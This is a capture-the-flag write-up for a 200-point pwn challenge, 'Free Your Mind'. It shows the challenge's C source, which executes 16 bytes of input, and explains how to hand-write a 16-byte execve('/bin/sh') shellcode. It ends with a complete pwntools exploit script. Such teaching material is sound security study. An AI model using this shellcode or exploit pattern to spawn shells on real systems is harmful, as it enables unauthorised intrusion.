

# Free Your Mind - PWN (200pts)

```c
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door\
. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
```

## Investigation
This challenge is more a task of avoiding constraints rather than identifying a weakness and exploiting it. From the source code we can see that the binary reads input data, stores it in the array declared as shellcode and then attempts to run this as a function. Assuming we can input a working shellcode to the binary, it should spawn a shell. Since the pointer is provided by the source code, we don't have to worry about ASLR for this challenge.

But there is a problem - The allocated memory for shellcode is only 16 bytes. By using conventional methods such as pwntools shellcraft.sh() or cherrypicking shellcode from shell-storm.org we will end up with too many bytes and our exploit will not work. 

For example, by using `asm(shellcraft.sh())`, we end up with 48 bytes of shellcode. You could potentially MacGyver some short online shellcode with the right pointer, but where is the fun in that?

## Solution

It looks like we will just have to write our own shellcode, which is probably the intended solution by the author as well. It forces us to learn how it works and that makes it a good chall in my opinion. 

Let's first understand what we need to do. The code we want to execute is a syscall known as `execve('/bin/sh')`. Since we are coding this in Assembly we need to check the register and value set-up before we start. A good resource on this is https://filippo.io/linux-syscall-table/. Search for execve and double click the entry to expand.

We see that execve() is a syscall that needs RAX to have the value of 59 (0x3b) when you call the system. It then takes three arguments; a filename pointer in RDI, an argv in RSI and env in RDX. We don't really care about the last two. To explain this in terms of pseudo-Assembly we want to execute `syscall(RAX, RDI, RSI, RDX)`, where `RAX=0x3b`, `RDI=<pointer to '/bin/sh'>`, `RSI=0x0` and `RDX=0x0`.

The static values are easy, we know them now. All we need is the pointer. Open the binary in GDB, run, CTRL+C to interrupt the process and type `find '/bin/sh'`. We know from the source code that there is a pointer in main so we just need to grab it: `0x4011b3`

Now we can stitch together assembly-code. We know that we need the code to be 16 bytes or lower, so let's use the 32-bit registers to make the syscall to shorten down. We can start with the parameters of execve(): `EDI, ESI, EDX`:

`mov edi, 0x4011b3;`, `xor esi, esi;`, `xor edx, edx;`. XORing a register with itself is an effective way of zeroing it out rather than using mov and 0x0.

That's our params set up. Now to make the right syscall - EAX needs to be 0x3b:

`mov eax, 0x3b;` and then make the call to system: `syscall;`.

Stitch it together with pwntools asm():

```py
shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall;')
```

This translates to `execve('/bin'sh')` You can check the length of the shellcode with a quick python sandbox:
```py
>>> from pwn import *
>>> len(asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall;'))
16
```

That should do the trick. Now plop it into a script and run the exploit:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'DEBUG'

gdbscript = '''
b *0x0000000000401245
continue
'''.format(**locals())

io = process('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
#io = gdb.debug('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d',  gdbscript=gdbscript)
#io = remote('chal.ctf.b01lers.com', '1007')

shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall;')

log.info(f'Shellcode length: {len(shellcode)}')

io.sendlineafter('it.', shellcode)

io.interactive()
```



Remote was down when I wrote this, but exploits works:)
